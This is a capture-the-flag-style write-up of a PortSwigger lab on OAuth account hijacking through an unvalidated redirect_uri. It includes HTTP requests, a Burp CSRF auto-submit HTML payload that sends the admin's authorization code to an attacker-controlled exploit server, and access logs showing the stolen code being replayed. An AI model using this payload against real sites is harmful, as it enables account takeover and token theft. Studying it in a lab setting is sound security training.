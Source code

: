 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5438bb93-8522-4978-a565-699cd374954c)

## Solution :

### Recon -

On clicking My-Account, the client service provider starts the authorization request .

```http
GET /auth?client_id=ioxlc8nxu9vqpn2iannk6&redirect_uri=https://0a0d007903e19d4b819ee0f2000900fa.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ada00bb030d9d1b81e2de3302e2007a.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: _session=O2bnIQAJVrm-7Kx763gMt; _session.legacy=O2bnIQAJVrm-7Kx763gMt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```
The identity provider asks us to enter username and password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ca3147de-9d3e-468a-9271-7deff6acd3e6)

In the next step , it asks for user's consent for the permissions that are requested by the client application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/23950306-848f-4b5c-a035-cb113f53245e)

Upon accepting the permissions, the oauth identity provider sends the token to the client application.

```http
GET /oauth-callback?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x HTTP/2
Host: 0a4700e20393dd3d809c9e9400e700bd.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=Wr1VoKWOhxfqDKZJogjRQNUWnmxlEE95
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
we are  now logged-in to the website. 

So next time when we click My-Account, we are automatically logged in.

### Exploitation -

In the *authorization request*, we can now check if the **redirect_uri** parameter is vulnerable to openredirect vulnerability. If it is, then we can smuggle the authorization token to our attacker server & use it to impersonate/ retreive sensitive information of the victim user.

Send the **authorization request** to repeater tab. Change the **redirect_uri** parameter to exploit server's address - `https://exploit-0a3a002b03eeddda80099d41011a0032.exploit-server.net/exploit` & send the request.

Notice that the token is sent to our exploit server address. This confirms that we can steal Oauth authorization tokens.

```
152.58.208.9    2023-09-22 18:22:09 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.9    2023-09-22 18:22:09 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:07 +0000 "GET /exploit?code=NuRYCmoK5_4DWBlQVJQ06MDZDORJFcjxtVwnW3bW3rN HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:15 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
```

### Stealing admin's token -

Since the authorization request does not have an **state** paraemter, we can perform an CSRF attack on the admin user & trick him to click on the link where the admin will trigger the Oauth flow & then the token will be sent to our exploit server(since we have changed the redirect_URI parameter to our exploit-server address).

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0a99001203b0dd4680989cc0025b008f.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="ev5avdz74a9ohun88ime1" />
      <input type="hidden" name="redirect&#95;uri" value="https&#58;&#47;&#47;exploit&#45;0a3a002b03eeddda80099d41011a0032&#46;exploit&#45;server&#46;net&#47;exploit" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

On viewing  Access-log, we can see that the admin indeed clicked on it & we have the admin's token in our server logs.

```
10.0.3.221      2023-09-23 15:19:54 +0000 "GET /exploit?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

Now visit - `https://0a4700e20393dd3d809c9e9400e700bd.web-security-academy.net/oauth-callback?code=WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x`

> Note that the code `WcKAewLHsci6HkT5ewuqd5DKXsVVfFlS-GZIP-krx6x` is the admin's token which we stole by redirecting it
> to our exploit server.

We can now see the **Admin panel** option.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fd950d41-5173-451d-91df-66fa1a1648a7)

Go to the admin panel & delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/93332e4d-c426-4306-95e4-7ae058af5075)




